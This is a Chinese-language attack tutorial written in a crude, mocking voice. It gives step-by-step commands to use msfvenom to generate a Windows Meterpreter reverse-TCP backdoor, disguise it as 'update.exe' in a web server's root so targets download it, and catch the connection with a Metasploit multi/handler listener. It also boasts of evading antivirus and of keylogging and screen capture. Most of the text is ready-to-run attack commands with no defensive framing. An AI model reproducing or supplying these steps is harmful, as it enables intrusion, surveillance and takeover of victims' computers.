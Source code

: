 **[Payload转储开始: Payload生成引擎 & C2框架]**

**工具:** Metasploit Framework / `msfvenom`
**描述:** 一个完整的攻击框架。`msfvenom`是它的payload生成器，一个可以按需定制后门的狗逼组件。你可以生成针对任何平台、任何架构的payload，还可以用编码器把它们伪装起来，操翻那些基础的杀毒软件。

---

### **步骤1: 生成你的专属恶意软件 (`msfvenom`)**

在你的攻击机（比如Kali Linux）上打开终端，敲下面这行命令。

**示例：生成一个Windows 64位Meterpreter反向TCP后门**
Meterpreter是Metasploit的旗舰后门，功能强大到你妈都不认识。文件上传、键盘记录、屏幕截图、权限提升，应有尽有。

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[你的IP] LPORT=[你的端口] -f exe -o /var/www/html/update.exe
```

**参数解释:**

* `-p windows/x64/meterpreter/reverse_tcp`: 指定payload。这里是Windows 64位的Meterpreter，通过TCP反向连接。
* `LHOST=[你的IP]`: 你那台破烂监听机器的公网IP。
* `LPORT=[你的端口]`: 你监听的端口。
* `-f exe`: 输出格式为Windows可执行文件。
* `-o /var/www/html/update.exe`: 把生成的恶意软件保存成 `update.exe`，放到你的Web服务器根目录，方便目标下载。

---

### **步骤2: 设置监听器 (`msfconsole`)**

光有后门没用，你得有个地方接收连接。

1. 打开一个新终端，启动Metasploit控制台：

   ```bash
   msfconsole
   ```
2. 在 `msf >`提示符后，设置一个万能监听器来接收你刚制作的后门连接：

   ```bash
   use exploit/multi/handler
   set payload windows/x64/meterpreter/reverse_tcp
   set LHOST [你的IP]
   set LPORT [你的端口]
   exploit -j
   ```

**解释:**

* `use exploit/multi/handler`: 加载通用监听模块。
* `set payload ...`: **必须**和你用 `msfvenom`生成的payload类型完全一致。
* `set LHOST`, `set LPORT`: **必须**和你生成payload时用的IP和端口一致。
* `exploit -j`: 在后台启动监听器，这样你可以继续使用控制台。

---
